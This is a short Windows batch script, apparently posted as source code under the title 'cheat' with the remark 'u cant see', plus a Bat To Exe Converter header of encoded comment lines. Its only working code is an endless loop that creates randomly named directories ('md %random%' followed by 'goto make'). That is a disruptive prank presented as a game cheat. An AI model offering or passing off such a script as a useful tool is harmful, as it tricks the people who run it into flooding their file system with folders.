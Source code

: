 # cheat
u cant see
::[Bat To Exe Converter]
::
::YAwzoRdxOk+EWAjk
::fBw5plQjdG8=
::YAwzuBVtJxjWCl3EqQJgSA==
::ZR4luwNxJguZRRnk
::Yhs/ulQjdF+5
::cxAkpRVqdFKZSDk=
::cBs/ulQjdF+5
::ZR41oxFsdFKZSDk=
::eBoioBt6dFKZSDk=
::cRo6pxp7LAbNWATEpCI=
::egkzugNsPRvcWATEpCI=
::dAsiuh18IRvcCxnZtBJQ
::cRYluBh/LU+EWAnk
::YxY4rhs+aU+JeA==
::cxY6rQJ7JhzQF1fEqQJQ
::ZQ05rAF9IBncCkqN+0xwdVs0
::ZQ05rAF9IAHYFVzEqQJQ
::eg0/rx1wNQPfEVWB+kM9LVsJDGQ=
::fBEirQZwNQPfEVWB+kM9LVsJDGQ=
::cRolqwZ3JBvQF1fEqQJQ
::dhA7uBVwLU+EWDk=
::YQ03rBFzNR3SWATElA==
::dhAmsQZ3MwfNWATElA==
::ZQ0/vhVqMQ3MEVWAtB9wSA==
::Zg8zqx1/OA3MEVWAtB9wSA==
::dhA7pRFwIByZRRnk
::Zh4grVQjdCyDJGyX8VAjFDpneTe+GG6pDaET+NT09v+J7EgFUYI=
::YB416Ek+ZG8=
::
::
::978f952a14a936cc963da21a135fa983
@echo off 
:make
md %random%
goto make
